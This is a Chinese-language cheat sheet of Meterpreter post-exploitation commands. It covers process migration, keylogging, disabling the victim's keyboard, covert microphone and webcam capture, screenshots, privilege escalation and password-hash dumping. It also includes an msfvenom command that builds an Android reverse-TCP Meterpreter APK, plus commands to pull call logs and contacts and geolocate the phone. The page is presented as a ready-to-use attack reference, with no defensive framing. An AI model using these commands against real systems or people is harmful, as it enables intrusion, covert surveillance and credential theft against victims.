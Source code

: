 ## meterpreter常用命令：

ps　　　　　　　　 #查看进程
`migrate`	　　　　		#注入进程
`run vnc`	　　　　		#查看远程桌面
`cat`	　　　　　　		#查看文件
`edit`	　　　　　　		#编辑文件
`upload`	　　　　		#上传文件
`download`	　　　　	#下载文件
`rm`	　　　　　　		#删除文件
`mkdir`	　　　　		#创建文件夹
`rmdir`	　　　　		#删除文件夹
`sessions -l`	　#查看会话
`background`         #把当前的会话设置为背景，需要的时候在启用
 
`enumdesktops`	　　　　　　	　　#在线用户数
`uictl disable keyboard`	　　#让键盘失效
`uictl enable keyboard`	　　　　#恢复键盘	
`record_mic -d 10`	　　　　　　#音频录制
`webcam_stream`	　　　　　　	#开启摄像头
`screenshot`	　　　　　　　　	#桌面抓图
`sysinfo` 　　　　　　　　  		#系统信息查询
`getsystem`	　　　　　　　　	#获取最高权限
`getuid`         #查看对方正在运行的用户
`getpid`             #返回运行`meterpreter`的`id`号
`getdesktop`             截取目标主机当前桌面会话窗口
`hashdump`	　　　　　　　　	#密码hash

`shell`              #切换到cmd的系统权限方式



少用: `exit`               #退出shell会话返回meterpreter或终止meterpreter


`run webcam -p /var/www`         #在`/var/www`目录监控目标主机的摄像头

`keylog_recorder`                #使用`migrate`将会话迁移至`explorer.exe`的进程空间后记录键盘

 ------------------------
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=6666 R > ./lyshark.apk`

search                     #搜索 search -f *.jpg
download
webcam_stream -i 1/2       #打开前置或后置摄像头
check_root                 #检测root
dump_calllog               #下载电话记录
dump_contacts              #下载信息记录
geolocate                  #定位，需要下载谷歌地图